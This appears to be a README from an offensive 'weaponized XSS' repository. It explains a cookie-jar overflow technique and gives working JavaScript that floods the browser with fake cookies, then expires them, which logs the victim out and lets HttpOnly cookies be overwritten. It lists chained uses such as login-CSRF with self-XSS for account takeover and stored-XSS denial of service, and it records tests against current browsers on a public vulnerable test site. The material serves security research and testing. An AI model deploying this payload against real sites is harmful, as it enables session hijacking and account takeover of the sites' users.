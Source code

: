 # [authn] Cookie Jar Overflow

<p align="justify">This payload terminates the current session with the web application, on the client-side (i.e. logs out the victim user account from the web application).<p>

<p align="justify">This is achieved by filling the web browser's cookie jar with a large number of fake cookies. When their number is greater than the limit of the cookie jar (typically, around 300), the web browser will start to overwrite any existing (legitimate) cookies in the cookie jar with these newly created ones. Once this occurs, the cookie jar is filled only with such fake (but valid) cookies.<p>

<p align="justify">In order to completely clear the cookie jar, the next step is to remove them. This is done by assigning each of them an expiry date with a value in the past. The web browser treats all such cookies as invalid and removes them from the cookie jar. Since it contained only expired cookies, the result of this is an empty cookie jar. From this point onwards, it is possible to create new cookies, as required.<p>

<p align="justify">It should be noted that the described process can be used to manipulate <code>HttpOnly</code> cookies, which are otherwise inaccessible by client-side JavaScript. This is possible because the web browser overwrites all cookies, including <code>HttpOnly</code> ones. Since it only receives the cookie's name and value in a HTTP request <code>Cookie</code> header (i.e. no attributes), based on this information, the server-side can not differeniate whether a received cookie is assigned <code>HttpOnly</code> or not. This makes it possible to create a cookie with the same name as a <code>HttpOnly</code> one on the client-side, and, even though it will not have the <code>HttpOnly</code> attribute set, such a cookie will be accepted by the server-side (i.e. accepted as legitimate; under the condition that its value is valid).<p>

Typical use-case scenarios:
* login-CSRF + self-XSS chained attacks
    * IMPACT:
        * Sensitive Information Disclosure
            * CVSS-Confidentiality: MEDIUM/HIGH
        * Account Take Over (ATO)
            * CVSS-Confidentiality: MEDIUM/HIGH
            * CVSS-Integrity: MEDIUM/HIGH
* server-side JavaScript payload storage potential
    * idea: deny any user authenticated context
    * IMPACT: DoS (CVSS-Availability: MEDIUM/HIGH)
    * e.g. stored XSS; web cache poisoning + reflected (DOM) XSS
        * frequently navigated (authenticated) page (e.g. main page/home page/dashboard)

## Code

```
let cookJarLimit = 400;
let postfix1 = '=a;';
let postfix2 = '=a; expires=Thu, 01 Jan 1970 00:00:01 GMT;';
if (location.protocol == 'https:') {
  postfix1 += ' Secure';
}
function fillCookieJar(inputJarLimit, inputPostfix) {
  for(let i=0; i<inputJarLimit; i++) {
    document.cookie = 'cookie' + i + inputPostfix;
  }
}
fillCookieJar(cookJarLimit, postfix1);
fillCookieJar(cookJarLimit, postfix2);
```

## Test Environment

### Web Browsers (20250808)

* [x] Mozilla Firefox 141.0.3 (64-bit)
* [x] Google Chrome 139.0.7258.67 (64-bit)
* [x] Microsoft Edge 139.0.3405.86 (64-bit)

### Vulnerable Page

http://testphp.vulnweb.com/login.php

`test:test`

## Screenshot

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://raw.githubusercontent.com/lighthouseitsecurity/weaponizedXSS/refs/heads/main/advanced/jsGadgets/cookieJarOverflow/screenshots/cookieJarOverflow_-_logout_-_1-1.png">
      <img src="https://raw.githubusercontent.com/lighthouseitsecurity/weaponizedXSS/refs/heads/main/advanced/jsGadgets/cookieJarOverflow/screenshots/cookieJarOverflow_-_logout_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/935b6dc9-8f95-4d85-9890-59c94c1ffe8c
